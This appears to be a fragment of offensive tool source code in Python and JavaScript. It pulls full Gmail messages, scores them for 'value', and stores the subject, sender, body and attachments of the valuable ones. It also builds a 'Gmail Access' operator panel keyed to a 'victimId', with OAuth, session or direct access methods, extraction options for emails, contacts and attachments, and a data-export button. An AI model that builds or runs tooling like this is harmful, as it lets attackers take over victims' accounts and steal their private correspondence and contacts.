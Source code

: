 ```python
                        format='full'
                    ).execute()
                    
                    # Analyze and classify email
                    email_analysis = await self.analyze_email_content(message)
                    
                    if email_analysis['value_score'] > 0.5:  # Only store valuable emails
                        valuable_emails.append({
                            'id': message['id'],
                            'thread_id': message['threadId'],
                            'subject': self.extract_header(message, 'Subject'),
                            'from': self.extract_header(message, 'From'),
                            'to': self.extract_header(message, 'To'),
                            'date': self.extract_header(message, 'Date'),
                            'body': self.extract_email_body(message),
                            'attachments': self.extract_attachment_info(message),
                            'analysis': email_analysis
                        })
                
            except Exception as e:
                self.logger.warning(f"Failed to extract emails for query '{query}': {e}")
        
        return valuable_emails
```

**Gmail Access Interface**:
```javascript
class GmailAccessInterface {
    constructor(victimId) {
        this.victimId = victimId;
        this.accessMethods = ['oauth', 'session', 'direct'];
        this.extractionOptions = {
            emails: true,
            contacts: true, 
            attachments: true,
            calendar: false,
            drive: false
        };
    }
    
    async displayGmailAccessPanel() {
        const panel = document.getElementById('gmailAccessPanel');
        panel.innerHTML = `
            <div class="gmail-access-header">
                <h3>Gmail Access - ${this.victimEmail}</h3>
                <div class="access-status ${this.getAccessStatus()}"></div>
            </div>
            
            <div class="access-methods">
                ${this.renderAccessMethods()}
            </div>
            
            <div class="extraction-options">
                <h4>Data Extraction Options</h4>
                ${this.renderExtractionOptions()}
            </div>
            
            <div class="action-buttons">
                <button onclick="this.initiateGmailAccess()" class="btn btn-primary">
                    Access Gmail
                </button>
                <button onclick="this.exportExtractedData()" class="btn btn-secondary">
                    Export Data
                </button>
```